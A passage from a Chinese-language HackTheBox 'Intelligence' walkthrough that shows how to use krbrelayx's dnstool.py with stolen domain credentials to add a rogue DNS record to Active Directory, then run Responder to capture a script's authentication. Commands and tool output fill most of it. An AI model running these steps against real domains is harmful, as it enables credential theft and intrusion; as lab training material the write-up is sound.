 我们有一个简单的脚本，其中有一个循环来从 AD 中检索所有名称类似 web*的记录。然后，它使用带有名称列表的 Invoke-WebRequest 并尝试进行身份验证。因此，我们知道需要添加一个指向我们的 DNS 记录，然后我们可以捕获该身份验证请求。

# DNS 中毒

首先，我们可以使用 Dirk Janm 的 [krbrelayx](https://github.com/dirkjanm/krbrelayx) 工具包来添加我们的记录:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# git clone [https://github.com/dirkjanm/krbrelayx.git](https://github.com/dirkjanm/krbrelayx.git)Cloning into 'krbrelayx'...
remote: Enumerating objects: 98, done.
remote: Total 98 (delta 0), reused 0 (delta 0), pack-reused 98
Receiving objects: 100% (98/98), 65.76 KiB | 1.11 MiB/s, done.
Resolving deltas: 100% (48/48), done.

┌──(root💀kali)-[~/htb/intelligence]
└─# cd krbrelayx

┌──(root💀kali)-[~/htb/intelligence/krbrelayx]
└─# python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p '<HIDDEN>' -a add -r 'webpencer.intelligence.htb' -d 10.10.14.251 10.10.10.248[-] Connecting to host...
[-] Binding to host
[+] Bind OK
/root/htb/intelligence/krbrelayx/dnstool.py:241: DeprecationWarning: please use dns.resolver.Resolver.resolve() instead
  res = dnsresolver.query(zone, 'SOA')
[-] Adding new record
[+] LDAP operation completed successfully
```

上面我们已经使用 dnstool 脚本添加了一个名为 webpencer 的记录，我们将该条目指向我们的 Kali IP 10 . 10 . 14 . 251。

# 回答者

现在，我们启动 responder，等待五分钟时间，让脚本联系我们并尝试进行身份验证:

```
┌──(root💀kali)-[~/htb/intelligence]
└─# responder -I tun0 -A
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
           NBT-NS, LLMNR & MDNS Responder 3.0.6.0
  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    <SNIP>
[+] Servers:
    <SNIP>
[+] HTTP Options:
    <SNIP>
[+] Poisoning Options:
    Analyze Mode               [ON]
    <SNIP>
[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.251]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']
[+] Current Session Variables:
```